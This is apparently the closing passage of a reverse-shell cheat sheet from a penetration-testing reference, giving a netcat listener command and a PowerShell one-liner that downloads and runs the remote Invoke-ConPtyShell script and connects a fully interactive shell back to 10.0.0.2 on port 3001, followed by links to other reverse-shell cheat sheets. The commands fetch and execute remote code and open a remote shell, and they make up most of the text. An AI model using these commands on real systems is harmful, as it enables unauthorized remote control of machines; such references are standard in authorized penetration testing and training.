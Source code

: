```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at --> https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1

## References

* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Spawning a TTY Shell](http://netsec.ws/?p=337)
* [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)
